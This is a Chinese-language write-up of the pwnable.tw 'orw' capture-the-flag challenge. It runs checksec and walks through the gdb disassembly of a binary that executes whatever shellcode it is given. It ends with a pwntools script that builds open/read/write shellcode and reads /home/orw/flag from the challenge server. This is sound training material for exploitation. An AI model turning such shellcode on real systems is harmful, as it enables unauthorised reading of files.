 # 2.orw

> 参考资料：
>
> * [https://www.anquanke.com/post/id/150359](https://www.anquanke.com/post/id/150359)

## ORW

首先检查安全保护等级：

```bash
$ checksec orw
[*] '/media/data/program/ctf/pwnable/orw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看到这个程序开启了以下保护机制：

* `Canary` 开启，部分 `RELOAD`，还有 `RWX` 读写执行段。

在 `gdb` 里面可以查看 `main` 函数的汇编代码：

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048330  _init
0x08048370  read@plt
0x08048380  printf@plt
0x08048390  __stack_chk_fail@plt
0x080483a0  __libc_start_main@plt
0x080483b0  prctl@plt
0x080483c0  __gmon_start__@plt
0x080483d0  _start
0x08048400  __x86.get_pc_thunk.bx
0x08048410  deregister_tm_clones
0x08048440  register_tm_clones
0x08048480  __do_global_dtors_aux
0x080484a0  frame_dummy
0x080484cb  orw_seccomp
0x08048548  main
0x080485a0  __libc_csu_init
0x08048600  __libc_csu_fini
0x08048604  _fini

(gdb) disas main
Dump of assembler code for function main:
   0x08048548 <+0>:     lea    0x4(%esp),%ecx
   0x0804854c <+4>:     and    $0xfffffff0,%esp
   0x0804854f <+7>:     pushl  -0x4(%ecx)
   0x08048552 <+10>:    push   %ebp
   0x08048553 <+11>:    mov    %esp,%ebp
   0x08048555 <+13>:    push   %ecx
   0x08048556 <+14>:    sub    $0x4,%esp
   0x08048559 <+17>:    call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:    sub    $0xc,%esp
   0x08048561 <+25>:    push   $0x80486a0
   0x08048566 <+30>:    call   0x8048380 <printf@plt>
   0x0804856b <+35>:    add    $0x10,%esp
   0x0804856e <+38>:    sub    $0x4,%esp
   0x08048571 <+41>:    push   $0xc8
   0x08048576 <+46>:    push   $0x804a060
   0x0804857b <+51>:    push   $0x0
   0x0804857d <+53>:    call   0x8048370 <read@plt>
   0x08048582 <+58>:    add    $0x10,%esp
   0x08048585 <+61>:    mov    $0x804a060,%eax
   0x0804858a <+66>:    call   *%eax
   0x0804858c <+68>:    mov    $0x0,%eax
   0x08048591 <+73>:    mov    -0x4(%ebp),%ecx
   0x08048594 <+76>:    leave  
   0x08048595 <+77>:    lea    -0x4(%ecx),%esp
   0x08048598 <+80>:    ret    
End of assembler dump.
```

可见这是一个有着完整编译结构的文件，我们主要看 `main` 函数中的主要功能：

1. 在栈顶是 `%ecx = 0x4(%esp)` 的情况下，在 `*main+17` 行调用了函数 `orw_seccomp`；
2.  传入字符串 `0x80486a0`，调用 `printf@plt` 函数。可以在 `gdb` 中查看字符串的内容：

    ```
    (gdb) x /s 0x80486a0
    0x80486a0:      "Give my your shellcode:"
    ```
3.  在 `*main+41 ~ *main+51` 行，函数通过三个参数调用了 `read@plt` 函数：

    ```c
    read(0x0, 0x804a060, 0xc8)
    ```
4. 在 `*main+61 ~ *main+66` 行，函数直接将传入的字符串作为一个函数进行了调用。

因此程序的逻辑就是：传入一个 `shellcode` 后这个 `shellcode` 会被执行。我们尝试直接按照题目的提示进行编写（`flag` 在文件 `/home/orw/flag` 中，并且只允许使用 `open`,`read`,`write` 三个函数）：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

class Challenge:
    def __init__(self, local=True):
        self.local = local
        if local:
            self.p = process(['./orw'])
        else:
            self.p = remote("chall.pwnable.tw", 10001)

    def gdb(self):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0])

    def inject_shellcode(self):
        self.p.recvuntil(":")
        shellcode = asm("\n".join([
            shellcraft.i386.pushstr("/home/orw/flag"),
            shellcraft.i386.linux.syscall("SYS_open", 'esp'),
            shellcraft.i386.linux.syscall("SYS_read", 'eax', 'esp', 0x30),
            shellcraft.i386.linux.syscall("SYS_write", 1, 'esp', 0x30)
        ]))
        assert len(shellcode) < 0xc8
        self.p.send(shellcode)

    def pwn(self):
        self.inject_shellcode()
        self.p.interactive()
        self.p.wait_for_close()


if __name__ == "__main__":
    c = Challenge(False)
    c.pwn()
```

也可以跟 `start` 一样，我们可以直接使用 80 中断调用这三个函数。

